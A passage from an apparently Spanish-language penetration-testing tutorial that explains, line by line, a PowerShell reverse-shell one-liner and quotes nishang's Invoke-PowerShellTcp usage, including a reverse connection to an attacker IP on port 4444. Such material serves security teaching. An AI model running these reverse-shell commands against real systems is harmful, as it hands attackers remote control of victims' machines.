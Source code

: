 Establece la variable `$sendback` igual a (`=`) el cmdlet `Invoke-Expression` (`iex`) que ejecuta el contenido de `$data`, luego redirige el error estándar (2>) y la salida estándar (1) a través de una tubería (|) hacia el cmdlet `Out-String`, que convierte objetos de entrada en cadenas de texto. Como se utiliza `Invoke-Expression`, todo lo almacenado en `$data` se ejecutará en el equipo local.

### **Mostrar el Directorio de Trabajo**

```powershell
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
```

Establece la variable `$sendback2` igual a (`=`) el valor de `$sendback` más la cadena `'PS '` más la ruta al directorio de trabajo actual (`(pwd).Path`) más `'>'`. Esto mostrará el prompt de la shell, por ejemplo, `PS C:\directoriodeTrabajo>`.

### **Establecer Sendbyte**

```powershell
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

Establece la variable `$sendbyte` igual a (`=`) el stream de bytes codificado en ASCII, que será enviado usando el cliente TCP para iniciar una sesión de PowerShell con un listener de Netcat ejecutándose en la máquina de ataque.

### **Cerrar la Conexión TCP**

```powershell
$client.Close()"
```

Este es el método `TcpClient.Close`, utilizado cuando se cierra la conexión.

Este one-liner que acabamos de examinar también se puede ejecutar como un script de PowerShell (`.ps1`). Podemos ver un ejemplo de esto en el código fuente a continuación, que forma parte del proyecto **nishang**:

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
```